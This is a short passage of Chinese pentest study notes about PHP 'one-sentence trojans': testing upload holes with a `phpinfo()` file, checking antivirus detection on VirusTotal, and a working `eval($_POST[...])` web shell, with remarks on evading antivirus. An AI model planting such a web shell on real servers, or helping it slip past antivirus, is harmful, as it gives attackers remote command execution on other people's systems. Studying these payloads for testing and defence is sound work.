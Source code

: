 关于虚拟终端：

![image-20220116195113669](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/01%20%E8%AE%A4%E8%AF%86%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC.assets/image-20220116195113669.png)

即在对方电脑上模拟运行cmd



一般测试情况，运行一句话木马，只需要让它执行输出`phpinfo()`就可以了



比如上传漏洞时，只要让它上传`<?php phpinfo();?>`即可

——大多数情况测试文件上传漏洞都用这个，能出现就证明成功了





# 一句话木马的免杀

安装php5.5.9和5.6.9版本

![image-20220116195622556](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E7%9A%84%E5%85%8D%E6%9D%80.assets/image-20220116195622556.png)

然后换低版本

测试木马的免杀：

virustotal



关于一句话木马免杀：

```
<?php eval($_POST['ABC']);?>
```

杀毒一般会针对`eval`
